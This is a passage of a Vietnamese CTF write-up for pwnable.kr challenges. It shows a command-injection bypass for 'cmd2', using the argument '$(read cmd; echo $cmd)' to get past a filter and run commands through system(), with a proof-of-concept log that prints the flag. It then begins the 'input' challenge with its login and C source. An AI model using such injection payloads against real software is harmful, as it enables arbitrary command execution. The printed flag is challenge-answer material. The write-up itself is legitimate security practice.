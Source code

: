 Ở bài này, các biến môi trường đều đã bị gỡ và dấu "/" cũng đã bị filter nên không thể dùng lại cách của bài **cmd1**.

=> Tuy nhiên ở đây, vẫn có thể truyền bash script vào để hàm system thực hiện => Viết script nhận giá trị nhập vào, sau đó thực thi nó.

**Script**

```bash
read cmd
echo $cmd
```

=> Biến nó thành one line: `$(read cmd; echo $cmd)`

**POC**

```bash
cmd2@pwnable:~$ ./cmd2 '$(read cmd; echo $cmd)'
$(read cmd; echo $cmd)
/bin/ls
cmd2  cmd2.c  flag
cmd2@pwnable:~$ ./cmd2 '$(read cmd; echo $cmd)'
$(read cmd; echo $cmd)
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@pwnable:~$
```

### input (4 pt)

```
Start day: 11/3/2025
End day: 11/3/2025
Evaluate: Beginner
```

```txt
Information: 4 points

Mom? how can I pass my input to a computer program?

ssh input2@pwnable.kr -p2222 (pw:guest)
```

Source code

```bash
input2@pwnable:~$ ls
flag  input  input.c
input2@pwnable:~$ cat input.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char* argv[], char* envp[]){
        printf("Welcome to pwnable.kr\n");
        printf("Let's see if you know how to give input to program\n");
        printf("Just give me correct inputs then you will get the flag :)\n");

        // argv
        if(argc != 100) return 0;
        if(strcmp(argv['A'],"\x00")) return 0;
        if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
        printf("Stage 1 clear!\n");

        // stdio
        char buf[4];
```